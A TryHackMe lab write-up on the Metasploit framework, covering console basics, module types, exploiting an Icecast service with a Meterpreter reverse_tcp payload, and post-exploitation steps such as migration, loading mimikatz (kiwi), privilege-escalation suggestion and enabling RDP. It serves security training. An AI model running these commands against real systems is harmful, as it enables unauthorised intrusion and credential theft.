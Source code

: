 #  TryHackMe - Metasploit (Room 016)

<details><summary>Intro</summary>
<p>

![](/Metasploit/images/metasploit.png)

Metasploit - an open source pentesting framework - is a powerful tool utilized by security engineers around the world. Maintained by Rapid7, Metasploit is a collection of not only thoroughly tested exploits but also auxiliary and post-exploitation tools. Throughout this room, we will explore the basics of using the framework and a few of the modules it includes

</p>
</details>

<details><summary>Initializing</summary>
<p>

![](/Metasploit/images/init.png)

If this is your first time using Metasploit, you will have just a few things to do before you utilize its full functionality

First things first, we need to initialize the database via the command `msfdb init`

![](/Metasploit/images/msfdb.png)

Before starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command `msfconsole -h`

![](/Metasploit/images/help.png)

We can start the Metasploit console on the command line without showing the banner or any startup information as well via the `-q` flag

Once the database is initialized, go ahead and start Metasploit via the command `msfconsole`

![](/Metasploit/images/msfconsoel.png)

After Metasploit has started, you can check we have connected to the database via the `db_status` command

![](/Metasploit/images/db.png)

Metasploit uses a PostGreSQL type of database as seen above

</p>
</details>

<details><summary>Rock 'em to the Core [Commands]</summary>
<p>
	
![](/Metasploit/images/rock.png)

On the Metasploit prompt, type the command `help`

![](/Metasploit/images/help2.png)

The help menu has a very short one-character alias which is `?`

Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. The base command we use for searching is simply `search`

Once we have found the module we want to leverage, we use the command `use` to select it. If we want to view information about either a specific module or just the active module we use the `info` command

Metasploit has a built-in netcat-like function where we can make quick connections with a host simply to verify that we can talk to it. This command is the `connect` command

If you just want to see the MOTD/ASCII art when we start msfconsole, simply type the `banner` comamnd

![](/Metasploit/images/banner.png)

To change the value of a variable, we use the `set` command. Metasploit also supports the use of global variables, something which is incredibly useful when you are specifically focusing on a single box. The command to change global variables is the `setg` command

To view the value of the variables, we use the `get` command

![](/Metasploit/images/get.png)

To change the value of a variable to null/no value we use the `unset` command

When performing a penetration test, it is quite common to record your screen either for further review or for providing evidence of any actions taken. This is often couple with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. The `spool` command can be used to set the console output to save to a file

Leaving a Metasploit console running is NOT always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. The `save` command can be used to store the settings/active datastores from Metasploit to a settings file. This saves within the msf4 or msf5 directory and can be undone easily by simply removing the created settings file

</p>
</details>

<details><summary>Modules for Every Occasion</summary>
<p>
	
![](/Metasploit/images/modules.png)

Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it

![](/Metasploit/images/module.png)

Easily the most common module utilized is the `exploit` modules - these hold all of the exploit code we use. Another module used hand in hand with exploits is the `payload` modules which contain the various bits of shellcode we send to have executed following exploitation

The `auxiliary` module is most commonly used in scanning and verification that machines are exploitable

One of the most common activities after exploitation is looting and pivoting. The `post` module provides these capabilities

The `encoder` module allows us to modify the apperance of our exploit such that we avoid signature detection. It is commonly used in payload obfuscation

The `nop` module is used with buffer overflow and ROP attacks

To load different modules not loaded in by default, you can use the `load` command

</p>
</details>

<details><summary>Move That Shell</summary>
<p>

![](/Metasploit/images/shell2.jpg)
	
Metasploit comes with a built-in way to run nmap and feed it's results directly into the database. Can run it via the `db_nmap -sV [IP]` command

![](/Metasploit/images/nmap.png)

On port 135, it identifies the service as MS RPC. By typing the `hosts` command into msfconsole, we can see waht information we have collected in the database

![](/Metasploit/images/hosts.png)

By typing `services`, we can see more information

![](/Metasploit/images/services.png)

It's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged powerfully and quickly. Done by typing `vulns`

![](/Metasploit/images/vulns.png)

Now that we've scanned the victim system, we can try connecting to it with a Metasploit payload. First, we have to search for the target payload. In Metasploit 5 you can simply type `use` followed by a unique string found within only the target exploit

For example try it now with the following command `use icecast`. The full path for the exploit that appears in the prompt is `/exploit/windows/http/icecast_header`

![](/Metasploit/images/icecast.png)

While that command with the unique string can be incredibly useful, it is not quite the exploit we want. Now, run the command `search multi/handler`. We can use the number instead of the name of the module for quicker exploitation

![](/Metasploit/images/number.png)

Select the number 7 from the previous list and set the payload using the command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, run the command `set LHOST [IP]`

![](/Metasploit/images/set.png)

Next, go ahead and `use icecast` and set the RHOST to the IP via `set RHOSTS [ip]`

![](/Metasploit/images/ice.png)

Once the variables are set, run the exploit via the `exploit` command or the `run -j` command to run it as a job

![](/Metasploit/images/meterpreter.png)

Once started, we can check all of the jobs running on the system by running the `jobs` command

After we have established our connection, we can list all of our sessions using the command `sessions`. Similiarly, we can interact with a target session using the command `sessions -i [number]`

![](/Metasploit/images/sessions.png)

</p>
</details>

<details><summary>We're In, Now What?</summary>
<p>
	
![](/Metasploit/images/werein.png)

Now that we have a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage

First things first, our initial shell/process typically is not very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command `ps`

![](/Metasploit/images/ps.png)

The name of the spool service is `spoolsv.exe`. We can try and migrate to that spool process. To migrate, simply type `migrate [PID]` along with the PID of the process

![](/Metasploit/images/migrate.png)

That migration did not work. Let's find out some more information about the system so we can try to elevate. The `getuid` command gives us more information regarding the current user running the process we are in

![](/Metasploit/images/getuid.png)

To find out more information about the system itself, we use the `sysinfo` command

![](/Metasploit/images/sysinfo.png)

To load a post exploitation module called mimikatz, we can type `load kiwi`

![](/Metasploit/images/kiwi.png)

If we want to transfer files to our victim, we use the `upload` command. If we want to run a Metasploit module, we use the `run` command. If we want to figure out the networking information and interfaces on our victim, we can run the `ipconfig` command

![](/Metasploit/images/ip.png)

We can go ahead and run a few post modules from Metasploit. First, run the command `run /post/windows/gather/checkvm`. This determines if we are in a VM - very useful piece of knowledge for further pivoting

![](/Metasploit/images/checkvm.png)

Next, try running `run /post/multi/recon/local_exploit_suggester`. This checks for various exploits which we can run within our session to elevate our privileges

![](/Metasploit/images/suggest.png)

Finally, let's try forcing RDP to be available. This won't work since we are not administrators but this is a fun command to know about: `run post/windows/manage/enable_rdp`

![](/Metasploit/images/rdp.png)

Can also run the `shell` command to spawn a normal system shell on the victim
</p>
</details>

<details><summary>Makin' Cisco Proud</summary>
<p>
	
![](/Metasploit/images/cisco.png)

</p>
</details>